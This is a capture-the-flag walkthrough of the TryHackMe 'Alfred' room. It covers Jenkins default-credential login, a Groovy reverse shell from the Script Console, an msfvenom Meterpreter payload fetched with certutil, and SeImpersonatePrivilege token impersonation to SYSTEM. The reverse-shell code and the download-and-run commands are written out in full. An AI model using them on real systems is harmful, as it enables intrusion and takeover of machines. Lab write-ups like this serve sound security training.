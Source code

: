 ```yaml
---
title: "Alfred"
datePublished: Sun Aug 06 2023 06:10:18 GMT+0000 (Coordinated Universal Time)
cuid: clkz1o7n0000c0aky82kx74kw
slug: alfred
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1691589674162/afecd4e2-73df-4f79-ad6e-5a10e74bd4a4.png
tags: ctf, penetration-testing, 2articles1week, tryhackme, ctf-writeup

---
```


This walkthrough will go over the [Alfred](https://tryhackme.com/room/alfred) room found on [TryHackMe](https://tryhackme.com). The objective behind this room is to exploit a misconfigured Jenkins server, obtain a reverse shell, and escalate privileges by leveraging a `SeImpersonatePrivilege` capability on a low-level user to obtain `NT AUTHORITY\SYSTEM` level privileges.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301818828/a91e91f2-b0ac-457a-9228-8f0a8cb964d0.png align="center")

### Step 1: Nmap

```bash
nmap -sC -sV -O -p- -Pn alfred.thm --min-rate=1000
```

```plaintext
┌──(root㉿kali)-[~]
└─# nmap -sC -sV -O -p- -Pn alfred.thm --min-rate=1000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-22 17:33 MDT
Nmap scan report for alfred.thm (10.10.70.88)
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  tcpwrapped
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|7|8.1 (87%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_8.1:r1
Aggressive OS guesses: Microsoft Windows Server 2008 R2 or Windows 8 (87%), Microsoft Windows Server 2008 R2 SP1 (87%), Microsoft Windows Server 2008 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows 7 SP1 (85%), Microsoft Windows 8.1 R1 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 148.82 seconds
```

From this scan, we identified three open ports: 80, 3389, and 8080.

Port 80:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301860116/5d6ce597-3d72-4198-9f5e-77c5e2d5c3e4.png align="center")

Port 8080:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301877545/ab705601-fa4e-412d-a000-b6373ce2c088.png align="center")

### Step 2: Logging In

Trying some default login credentials, we discover that `admin:admin` works.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301895746/23b418b2-8179-4d4f-8d80-a5c67410a555.png align="center")

### Step 3: Initial Foothold

Peeking around the system, we find an area where we can use `groovy` scripts. This will be our way into the box.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301912905/2623a425-11de-4301-a1f0-e7e5b203dddd.png align="center")

We're using a groovy shell which can be found on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy).

```php
String host="10.0.0.1";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Running this script inside the built-in `Script Console` calls our attack box and drops us into a shell.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301962193/86c8e757-befb-433a-aa36-d828d60ca937.png align="center")

From here we find our `user.txt` flag located in `C:\Users\bruce\Desktop\` .

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301971137/3296a91b-9046-4d90-b0f7-9433675ce6af.jpeg align="center")

### Step 4: Upgrade to Meterpreter Shell

First, we want to generate our payload using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.28.215 LPORT=1335 --format exe -o payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302000265/483a5146-9d7a-4d33-9db7-05cb9c09007f.webp align="center")

From the victim, we're going to use `certutil` to download it.

```bash
certutil.exe -urlcache -f http://10.13.28.215:8000/payload.exe payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302014664/102fb327-07be-4624-bbc0-74e1356897d5.webp align="center")

Now we fire up `msfconsole` and set up our handler to catch the shell.

1. `use exploit/multi/handler`
    
2. `set payload windows/meterpreter/reverse_tcp`
    
3. `set LHOST <ATTACKER_IP>`
    
4. `set LPORT 1335`
    
5. `exploit`
    

Once the `payload.exe` is run on the victim machine, our handler will catch the shell and drop us in.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302062807/2da5c976-0a1c-4fba-8435-640bc686b8b7.webp align="center")

### Step 5: Privesc

Let's see what privileges we have currently by typing `whoami /priv`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302097741/26946bf1-f36b-4081-8b45-95fd0b1716ec.webp align="center")

Nice. We have `SeImpersonatePrivilege`, let's exploit this vulnerability. We can achieve this by using the `incognito module` built into metasploit.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302105355/5dcbd0e2-abf7-4162-830b-97854bada4d0.webp align="center")

Next, we want to impersonate the Administrator's token. We can do this by typing the following command: `impersonate_token "BUILTIN\Administrators"`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302112792/09d85050-8f39-417b-a03b-ac2e11017caf.png align="center")

Now let's migrate to a process with correct permissions. The safest bet is to always migrate to the `services.exe` service.

1. View processes: `ps`
    
2. Find the PID of `services.exe`
    
3. `migrate <PID>`
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302134644/1c59dc1b-ca2f-4246-a8ef-847b6fc8eb70.webp align="center")

Now that we're successfully `NT AUTHORITY\SYSTEM`, let's find our root flag and complete this room.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302142088/b9e2bb98-1942-4e38-8663-e0c86e10076a.jpeg align="center")

This room was a great introduction to AD pentesting. After going through this, I realized I have a long way ahead of me until I feel comfortable enough to sit down for the PNPT certification by TCM Security. I hope you enjoyed this walkthrough of the [Alfred](https://tryhackme.com/room/alfred) room found on [TryHackMe](https://tryhackme.com), and as always, Happy Hacking.